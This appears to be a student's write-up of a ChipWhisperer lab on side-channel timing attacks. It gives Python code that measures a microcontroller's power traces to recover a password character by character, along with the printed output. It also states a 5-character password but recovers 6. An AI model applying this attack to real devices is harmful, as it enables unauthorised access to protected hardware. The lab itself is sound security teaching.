


## Lab 2_1B

In this Lab, what we are going to do is that we try to break devices by determining, *when* a device is performing certain operations.

### Learning outcomes:


- How power can be used to determine timing information.
- Plotting multiple iterations while varying input data to find interesting locations.
- Using difference of waveforms to find interesting locations.
- Performing power captures with ChipWhisperer hardware (hardware only)


### Explanation

In this lab, the setting is like that, there is a program that asks for password. We try to hack into that by strategically finding out the password. One thing we know is that, the password is of 5 characters and the first one is `"h"`.

The strategy is that, first we understand how this password checking is being done. Like, what distingushes the correct password from the wrong one if there is any mechanism to quantify that.

The second step is to find out each character that is different from other one and using that as the password.

To check if the password is correct or not, you should get `Access granted, Welcome!` when we run `target.read()`.


### Step - 1 : Differentiating between correct password character and the other character.

Lets write a character to the MCU and compare how it is different from the character `"h"`

we can use this code snippet

```python
CHARACTER = "h\n"
reset_target(scope)
target.flush()
scope.arm()
target.write(CHARACTER)
print(scope.capture())
```

or we can do it in form of a function
```python
def cap_pass_trace(pass_guess):
    reset_target(scope)
    target.flush()
    scope.arm()
    target.write(pass_guess)
    ret = scope.capture()
    if ret:
        print('Timeout happened during acquisition')

    trace = scope.get_last_trace()
    return trace
```

New things learned here.
One thing to remember is that while writing `target.write(".......\n")`, dont forget the `"\n"`. Otherwise you may get this error:

```python
(ChipWhisperer Scope WARNING|File _OpenADCInterface.py:642) Timeout in OpenADC capture(), no trigger seen! Trigger forced, data is invalid. Status: 0b
(ChipWhisperer Scope WARNING|File _OpenADCInterface.py:642) Timeout in OpenADC capture(), no trigger seen! Trigger forced, data is invalid. Status: 08

```

Now if we check the power differences, it looks something like this..

\


As you can see, there is a clear difference of how the correct character is treated compared to the incorrect one. We can make use of this information and find out the correct one.

```python
ref_trace = cap_pass_trace( "\x00\n")
trace1 = cap_pass_trace('h' + "\n")
trace2 = cap_pass_trace('p' + "\n")

cw.plot(trace1-ref_trace) * cw.plot(trace2-ref_trace)
```
### Step - 2 : Finding out the correct character in each position.
As we know there are 5 characters. we take a reference trace value and delete it from the collected trace in each of the position. The correct one will have a higher average difference because it is treated differently




Now, if we see the averege difference, the biggest one is the correct one

```python
ref_trace = cap_pass_trace( "h0p\x00\n")


for c in 'abcdefghijklmnopqrstuvwxyz0123456789': 
    trace = cap_pass_trace("h0p" + c + "\n")
    diff = np.sum(np.abs(trace - ref_trace))
    
    print("{:1} diff = {:2}".format(c, diff))

```

``` bash
a diff = 9.0439453125
b diff = 8.048828125
c diff = 8.349609375
d diff = 11.634765625
e diff = 11.1328125
f diff = 10.4658203125
g diff = 12.326171875
h diff = 8.3095703125
i diff = 9.7939453125
j diff = 11.7451171875
k diff = 10.3857421875
l diff = 12.2255859375
m diff = 7.6640625
n diff = 11.75
o diff = 11.5693359375
p diff = 10.1650390625
q diff = 10.982421875
r diff = 8.724609375
s diff = 11.40625
t diff = 7.2529296875
u diff = 7.859375
v diff = 8.708984375
w diff = 8.4287109375
x diff = 271.5859375
y diff = 10.5361328125
z diff = 11.390625
0 diff = 12.6162109375
1 diff = 9.66015625
2 diff = 10.3408203125
3 diff = 9.8564453125
4 diff = 8.5498046875
5 diff = 8.771484375
6 diff = 8.1943359375
7 diff = 11.302734375
8 diff = 7.1376953125
9 diff = 10.5576171875
```

As you can see, `"x"` has the biggest difference.
And finally we can find out the whole password using

```python
guessed_pw = ""

for _ in range(0, 6):  
    biggest_diff = 0
    biggest_char = '\x00'
    ref_trace = cap_pass_trace(guessed_pw + "\x00\n")
    
    for c in 'abcdefghijklmnopqrstuvwxyz0123456789': 
        trace = cap_pass_trace(guessed_pw + c + "\n")
        diff = np.sum(np.abs(trace - ref_trace))

        if diff > biggest_diff:
            biggest_diff = diff
            biggest_char = c
            
    guessed_pw += biggest_char
    print(guessed_pw)
```
Finally we find out the password is `h0px34`
``` bash
h
h0
h0p
h0px
h0px3
h0px34
```